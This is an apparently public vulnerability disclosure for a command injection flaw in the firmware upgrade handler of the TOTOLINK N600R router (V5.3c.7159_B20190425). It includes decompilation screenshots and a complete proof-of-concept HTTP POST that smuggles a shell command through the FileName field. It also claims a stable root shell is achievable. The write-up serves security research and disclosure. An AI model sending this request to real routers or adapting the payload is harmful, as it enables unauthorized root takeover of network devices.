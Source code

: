 # TOTOlink N600R V5.3c.7159_B20190425 Command injection vulnerability

## Overview

- Manufacturer's website information：http://www.totolink.cn
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## 1. Affected version

![image-20220406182121036](img/image-20220406182121036.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220406183836895](img/image-20220406183836895.png)

The program passes the contents obtained by the filename parameter to V8

![image-20220406183906774](img/image-20220406183906774.png)

Then, format the matching content of V8 through the sprintf function into V31, and bring V31 into the cstesystem function

![image-20220406182546918](img/image-20220406182546918.png)

At this time, corresponding to the parameter A1, the function assigns A1 to the array of V9, and finally executes the command through the execv function. There is a command injection vulnerability

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V5.3c.7159_B20190425
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 111
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/adm/upload_firmware.asp?timestamp=1647873626298
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647873424:2
Connection: close

{"topicurl":"setting/setUpgradeFW",
"FileName":"test1$(ls>/tmp/8.txt;)",
"ContentLength":"1",
"Flags":"1"
}
```

The reproduction results are as follows:

![image-20220406183942361](img/image-20220406183942361.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell
